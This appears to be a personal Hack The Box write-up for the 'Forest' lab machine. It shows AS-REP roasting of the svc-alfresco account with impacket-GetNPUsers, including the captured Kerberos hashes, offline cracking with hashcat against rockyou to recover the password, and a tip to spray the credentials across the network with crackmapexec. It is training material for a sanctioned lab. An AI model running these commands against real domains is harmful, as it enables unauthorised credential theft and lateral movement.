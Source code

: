 # Foothold

- Earlier with `impacket-GetNPUsers` svc-alfresco was identified as not  needing pre-auth for kerberos - this means its vulnerable to asreproasting
	- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast

```bash
┌──(kali㉿kali)-[~/Documents/htb/machines/forest]
└─$ impacket-GetNPUsers htb.local/ -dc-ip $IP                                                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-02-13 17:30:24.349530  2019-09-23 07:09:47.931194  0x410200 



                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/machines/forest]
└─$ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip $IP -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ef2405d7be0b551ed384e5768b630e8b$666309a98238290f5622d5cdde91cb5e9630b2c26796f3e21f84560d926659538ef34b49e2680adeb73a203d827b437ac8aa70578c40510dfe247f15f7f3b2d55777018cfeedfbc191d39c03ad1c5ff049d2b666c2e892c15be612d92609e9bf3b48c39c2486e878575d3679b776532ff9ac88556cead3e437141e0d47a9e9a9071ee62b717369b8220d7826da2b13abc7ca3a32e3c870129bb16decb8d2e923db40c6dca02f90f44fe4b70fcbff976c5f462ca5f2efd85baaa805005c25db05ce3ec5c9a87d590601e14ea92d1a6f6fdaaf0758ff82c023a1e4fdac922fdccaff85aae8fa20

```
- with this hash, we can save it to a file and try to crack offline using hashcat
```bash
echo "$krb5asrep$23$svc-alfresco@HTB.LOCAL:02edf62c0a429041c31b90507b72b62b$a175de506e32f9ac50cc5972cca3e794d4417f6e5d16ddbb57cc068d98e3a7a12a4354af9086954ec3e3a3fa98e8a79487f9265459334e7f1c13909c3c40109cc0210997262409052a74ec7c6e42bc912325c0cd9e4fb449136469388532d8f2dd36389e09abab3bddc03641050d0022b5795eab057b4d2d615b54d300986e00bdb4f9747fcf664de615109f69877f38335ea16f77ac75bff14e634790fd7448d60c08f58abca2937767919b698460fbdf6c5376eea9ea49065c77561f18268e02e85d319617265d63c08ba3c010984c59a340c0ecd3884c4b63cdf25ea3e8e06b659c41290f" >> forest.hashes
```

### Cracking the Password Hash
- either copy the file or the hash to ur host, and crack it with hashcat - *significantly* faster on the host since it can utilize the GPU whereas the VM cant
- hashcat mode ![](Pasted%20image%2020230213152959.png)
	- https://hashcat.net/wiki/doku.php?id=example_hashes
- `./hashcat.exe -m 18200 -a 0 .\hashes\forest.hash .\rockyou.txt`
	- -m: Select the mode to be used when cracking - this is determined by the hash type
	- -a: The type of attack to use. 0 is a simple dictionary attack which then uses the supplied wordlist (rockyou.txt). [Attack modes](https://hashcat.net/wiki/#core_attack_modes)
- ![](Pasted%20image%2020230213153328.png)
- The password for `svc-alfresco` is `s3rvice`
	- **Good practice to blast creds out against the network using crackmapexec**
- ![](Pasted%20image%2020230213153858.png)
- ![](Pasted%20image%2020230213154012.png)

